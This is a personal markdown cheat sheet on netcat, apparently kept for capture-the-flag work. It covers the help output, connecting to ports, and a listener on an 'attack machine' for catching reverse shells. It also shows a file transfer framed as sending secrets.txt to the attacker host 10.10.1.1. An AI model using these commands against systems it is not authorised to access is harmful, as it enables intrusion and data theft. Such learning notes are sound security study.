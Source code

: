 # netcat

There isn't much that netcat can't do. It allows different types of communication between devices, open shells on remove machines or something simple like get http from a server. I use it often to send and receive data between machines.

## Usage

```bash
$ nc -h
OpenBSD netcat (Debian patchlevel 1.206-1ubuntu1)
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
	  [-m minttl] [-O length] [-P proxy_username] [-p source_port]
	  [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
	  [-X proxy_protocol] [-x proxy_address[:port]] 	  [destination] [port]
	Command Summary:
		-4		Use IPv4
		-6		Use IPv6
		-b		Allow broadcast
		-C		Send CRLF as line-ending
		-D		Enable the debug socket option
		-d		Detach from stdin
		-F		Pass socket fd
		-h		This help text
		-I length	TCP receive buffer length
		-i interval	Delay interval for lines sent, ports scanned
		-k		Keep inbound sockets open for multiple connects
		-l		Listen mode, for inbound connects
		-M ttl		Outgoing TTL / Hop Limit
		-m minttl	Minimum incoming TTL / Hop Limit
		-N		Shutdown the network socket after EOF on stdin
		-n		Suppress name/port resolutions
		-O length	TCP send buffer length
		-P proxyuser	Username for proxy authentication
		-p port		Specify local port for remote connects
		-q secs		quit after EOF on stdin and delay of secs
		-r		Randomize remote ports
		-S		Enable the TCP MD5 signature option
		-s source	Local source address
		-T keyword	TOS value
		-t		Answer TELNET negotiation
		-U		Use UNIX domain socket
		-u		UDP mode
		-V rtable	Specify alternate routing table
		-v		Verbose
		-W recvlimit	Terminate after receiving a number of packets
		-w timeout	Timeout for connects and final net reads
		-X proto	Proxy protocol: "4", "5" (SOCKS) or "connect"
		-x addr[:port]	Specify proxy address and port
		-Z		DCCP mode
		-z		Zero-I/O mode [used for scanning]
	Port numbers can be individual or ranges: lo-hi [inclusive]
```

## Connecting

Now and then I'll use netcat to connect to a port on a machine. Usually this happens when I am trying to figure out what is running on the given port. As an example, I am going to connect to the machine at 10.10.1.1 on port 1337. The syntax is very simple:

```bash
$ nc 10.10.1.1 1337
```

From here you can start typing to see how the port handles the message. It varies based on what is listening on that port.

## Listening

This is by far the most common use I have for netcat. I will list on my attack machine so that I can get a reverse shell onto the machine I am attacking. Here is the syntax:

```bash
$ nc -lvnp 4444
````

Here is what the command is doing:

- The `-l` option tells netcat to listen.
- The `-v` option tells netcat to be in verbose mode.
- The `-n` option tells netcat to supress name/port resolutions.
- The `-p` option tells netcat what port to listen on. In this case 4444.

This will output something like the following:

`Listening on 0.0.0.0 4444`

When someone connects, the terminal reads something like the following:

`Connection received on 10.10.1.1 33032`

From here, I can generate a stable shell.

## Sending a File

Netcat has the ability to also send files between machines. I will show how to receive and send a file using netcat. The syntax is very easy. In this example I am sending the secrets.txt to my attack machine that has an ip address of 10.10.1.1.

### Receiver

I need to setup the receiver first. Here is the syntax:

```bash
$ nc -lp 4444 -q 5 > output.txt < /dev/null
```

Here is a explaination about the command:

- The `-l` option tells netcat to listen.
- The `-p` option tells netcat what port to listen on. In this case 4444.
- The `-q` option tells netcat to wait for 5 seconds after the EOF (end of file) is sent.
- The `> output.txt` will save the text from netcat into the output.txt file.
- The `< /dev/null` will send an EOF to the command since we don't want to provide any input from our side.

### Sender

The sending is even easier than the above command. Here is the syntax:

```bash
$ cat output.txt | nc 10.10.1.1 4444
```

Cat will grab the text in output.txt and send it to my attack machine on port 4444.

## POP3

Netcat is the tool I use when interacting with POP3. I have a write up that details interacting with [pop3](../services/pop3.md) in my services section. It covers the some of the more common scenarios that I have found during capture the flag events.

All the examples and interactions use netcat.

